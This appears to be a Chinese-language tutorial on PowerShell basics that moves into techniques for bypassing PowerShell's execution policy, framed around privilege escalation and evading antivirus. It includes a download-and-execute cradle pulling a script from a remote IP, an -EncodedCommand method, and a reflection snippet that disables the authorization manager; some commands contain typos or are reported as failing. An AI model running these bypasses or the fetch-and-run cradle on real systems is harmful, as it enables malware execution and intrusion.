  

1 介绍
Windows PowerShell 是一种命令行外壳程序的脚本环境，它内置在每个受支持的Windows版中（Windows7、Windows Server2008 R2及更高版本），为windows命令行使用者和脚本编写者利用.NET Framework的强大功能提供了遍历。

需要.NET环境支持

1.1 特点
win7以上默认安装

脚本可以在内存中运行，不需要写入磁盘

几乎不会出发杀软

可以远程执行

是windows脚本执行更容易

cmd.exe的运行通常会被阻止，但是PowerShell不会被阻止

可用于管理活动目录

1.2 基本概念
1.2.1 .ps1 文件
一个PowerShell脚本其实就是一个简单的文本文件，其扩展名为".ps1"。PowerShell脚本文件中包含一系列命令，每个命令为独立一行。

1.2.2 执行策略
为防止恶意脚本，默认情况下策略为“不能执行”

若无法运行，可使用cmdlet查询当前执行策略

get-executionPolicy
复制
Windows PowerShell get-executionPolicy

Restricted：脚本不能运行（默认设置）

RemoteSigned：在本地创建脚本可以运行，但从网上下载的不能（拥有数字证书签名除外）

AllSigned：仅当脚本受信任的发布者签名时才能运行

Urestricted：允许所有脚本运行

可以使用cmdlet命令设置PowerShell的执行策略

set-ExcutionPolicy <policy name>
复制
1.2.3 运行脚本
必须输入完整路径和问价名，如：

C:\Scripts\a.ps1
复制
1.2.4 管道
作用：将一个命令的输出作为另一个命令的输入，两个命令用 | 连接

get-process p* | stop-process
复制
一个神奇的命令

2 常用命令
2.1 帮助
help
复制
Windows PowerShell帮助

2.2 查看PowerShell版本
get-host
复制
$PSVersionTable.PSVERSION
复制
查看Windows PowerShell版本

查看Windows PowerShell版本

2.3 启动
powershell
复制
Windows PowerShell启动

也可以从cmd输入命令切入

2.4 获取命令
命令很多

Windows PowerShell获取命令

2.5 获取所有进程
get-process
复制
Windows PowerShell获取所有进程

2.6 指定命令重命名
set-alias aaa get-command
复制
Windows PowerShell指定命令重命名

2.7 清屏
cls
复制
clear
复制
3 PowerShell提权
要想运行PowerShell脚本程序，必须使用管理员权限将策略从Restricted改为Unrestricted。

PowerUp.ps1文件可从这里下载

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

3.1 绕过本地权限并执行
runme.ps1

Write-Host "My voice is my passport, verify me."
复制
3.1.1 获取当前策略
Get-ExecutionPolicy
复制
Windows PowerShell查看当前策略

同样可以将之心执行策略设置为不同级别。

3.1.2 查看支持的所有级别
linux 基本命令也可以用

Set-ExecutionPolicy
复制
Get-ExecutionPolicy -List | Format-Table -Autoize
复制
Windows PowerShell Get-ExecutionPolicy -List

Windows PowerShell向控制台输出一句话失败

如果策略很开放，想使用更严格的方式来测试如下方案，需切换到管理员身份，执行

Set-ExecutionPolicy Restricted

3.2 绕过方式
3.2.1 在交互式PowerShell窗口运行
Windows PowerShell在交互式PowerShell窗口运行

3.2.2 Echo脚本 Pipe到PowerShell的标准输入
引号内如果是中文会报错，未知

Windows PowerShell Echo脚本 Pipe到PowerShell的标准输入

3.2.3 从文件读入脚本 Pipe到PowerShell的标准输入
Get-Content ./runme.ps1 | PowerShell.exe -noprofile -
复制
Type ./runme.ps1 | PowerShell.exe -noprofile -
复制
Windows PowerShell从文件读入脚本 Pipe到PowerShell的标准输入

3.2.4 从一个URL Dowload脚本内容，然后执行
PowerShell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.12.120.66:8888/runme.ps1')"
复制
这里一直没测试成功

3.2.5 使用 -command 命令参数
此方法和直接粘贴脚本内容的方式很像，但是此方法不需要一个交互式窗口。它适用于简单脚本执行，对于复杂脚本会发生解析错误。该方法同样不会写内容到磁盘中。

PowerShell -command "Write-Host 'you are good.'"
复制
Windows PowerShell使用 -command 命令参数

可以将该命令写到一个bat文件中，然后放到启动目录中，来帮助提权

3.2.6 使用 -encodedCommand命令参数
此方法很上一个方法很相似，但是此方式脚本内容是 Unicode/base64 encod字符串。

使用编码的好处是可以让你避免执行使用Command参数时产生一些糟糕的解析问题

image-20210905224814953

3.2.7 Invoke-Command 命令
该方法最好的在对对抗PowerShell remoting开启的Remote系统

invoke-command -scriptblock {Write-Host "You are good."}
复制
Windows PowerShell Invoke-Command 命令

如下命令可以来从一个远程系统上抓区执行策略，同时运用到本地计算机中

invoke-command -computername Server01 -scriptblock {get-executionpolicy} | set-executionpolicy -force
复制
3.2.8 使用Invoke-Expression命令
Get-Content ./runme.ps1 | Invoke-Expression
复制
gc ./runme.ps1 | iex
复制
测试均未生效

3.2.9 使用Bypass执行策略标志
这个方法时微软提供的用来绕过执行策略的一种方式。当指定白标志后，即视为什么都不做，什么警告都不提示

PowerShell -ExecutionPolicy bypass -File ./runme.ps1
复制
[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-IOnKv7Jv-1630949007798)(Windows PowerShell使用Bypass执行策略标志.png)]

3.2.10 使用Unrestricted执行策略标志
该标志和bypass很像，但是当使用该标志时，意味着加载所有的配置文件和执行所有的脚本

PowerShell -ExecutionPolicy unrestricted -File ./runme.ps1
复制
Windows PowerShell使用Unrestricted执行策略标志

3.2.11 使用Remote-Signed执行策略标志
创建脚本，然后按签名指南，最后运行

签名指南：https://www.darkoperator.com/blog/2013/3/5/powershell-basics-execution-policy-part-1.html

PowerShell.exe -ExecutionPolicy Remote-signed -File ./runme.ps1
复制
未测试成功

3.2.12 通过换出认证管理器，禁用执行策略
如果函数可以在交互式窗口中使用，也可以在Command参数中指定。

一旦该函数被执行，则会认证管理器，同时默认策略改为unrestricted。

该方法只在一个会话范围内有效。

function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))} Disable-ExecutionPolicy ./runme.ps1
复制
disable-ExecutionPolicy
复制
./runme.ps1
复制
Windows PowerShell通过换出认证管理器，禁用执行策略

3.2.13 设置执行策略为Process作用域
执行策略可以应用到各个级别，其中包括完全控制process。使用该方法仅限于session中，执行策略会变为unrestricted

Set-ExecutionPolicy Bypass -Scope Process
复制
Windows PowerShell设置执行策略为Process作用域

3.2.14 通过命令设置执行策略为CurrentUser作用域
Set-ExecutionPolicy -Scopr CurrentUser ExecutionPolucy UnRestricted
复制
命令报错

3.2.15 通过注册表设置执行策略为CurrentUser作用域
HKEY_CURRENT_USER\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell
